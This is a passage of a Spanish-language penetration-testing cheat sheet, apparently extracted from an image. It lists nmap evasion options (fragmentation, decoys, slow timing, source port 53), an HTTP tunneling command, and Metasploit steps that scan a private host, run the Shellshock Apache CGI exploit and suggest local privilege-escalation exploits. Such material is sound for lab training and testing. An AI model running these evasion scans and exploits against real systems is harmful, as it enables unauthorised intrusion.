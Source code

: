 
# Fragmentación de paquetes
nmap -f 192.168.90.10

# Uso de señuelos
nmap -D RND:10 192.168.90.10

# Timing evasion
nmap -T1 192.168.90.10

# Evasión de puertos
nmap --source-port 53 192.168.90.10

# Tunneling HTTP
httptunnel -F 192.168.90.10:80 -P 192.168.1.10:3306



#### 2. Explotación de Servicios

**Metasploit Framework**:


# Iniciar Metasploit
msfconsole

# Escaneo de vulnerabilidades
use auxiliary/scanner/http/dir_scanner
set RHOSTS 192.168.90.10
set RPORT 8080
run

# Explotación de Apache
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 192.168.90.10
set RPORT 80
exploit

# Post-explotación
use post/multi/recon/local_exploit_suggester
set SESSION 1
run

